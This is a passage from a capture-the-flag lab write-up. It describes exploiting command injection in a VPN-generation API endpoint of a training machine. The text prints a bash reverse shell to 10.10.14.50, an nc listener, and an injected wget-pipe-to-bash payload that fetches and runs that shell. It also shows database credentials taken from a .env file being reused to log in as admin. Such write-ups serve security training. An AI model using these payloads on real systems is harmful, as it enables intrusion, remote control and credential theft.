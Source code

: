 ## Task 8
### What API endpoint has a command injection vulnerability in it?
When looking for command injection vulnerability usually we need to know and identify which service or api that interact with OS. After try and understand all available api endpoint, we noticed that **/api/v1/admin/vpn/generate** required a username parameter to generate a vpn with POST method. The response includes the username parameter at the certificate subject thus the parameter is our entry point to inject a command. 
At first I try to use common way for command injection by using **;** , **|** and **&&**. Lastly, after referring [OWASP: Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection), I try to use special character **$(command)** as below and it returns www-data on the cert subject.
```
$(whoami)
```
Then, I try to create a reverse shell named rev.sh with payload:
```
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.50/9990 0>&1
```
Then I host up python server with command below for the targeted machine to get the rev.sh.
```
python -m http.server 8000
```
Before the targeted machine can connect to us, we need to up our listener simply by using the command:
```
nc -nvlp 9990
```
Then on the burpsuite we can inject command below to make the targeted machine fetch our reverse shell and execute it silently. 
```
$(whoami; wget -q -O- http://10.10.14.50:8000/rev.sh | bash -)
```
The **-q** option is for quiet (no output) which means it won't display progress or status information while downloading the content and **-O-** specifies the output file which means the content will be printed to the standard output (your terminal) rather than saved to a file.
Then the **| bash -** will executing the commands contained within the rev.sh file.

## Task 9
### What file is commonly used in PHP applications to store environment variable values?
Just by simply google, the answer is **.env** file.

## Task 10
## Submit the flag located in the admin user's home directory.
After gaining reverse shell, we could list all files within the current directory with **ls -a** where **.env** file existed. Try to open the file and we found there are database username and password.
Then we go to /home/admin directory where we found user.txt and when we try to open it, **Permission denied**. Using command **ls -al** we know only root and admin are able to read the user.txt.
Thus, we need to login as admin first before we can read the file. Using the database password obtain before in .env file we successfully login as admin and successfully read the user.txt file.
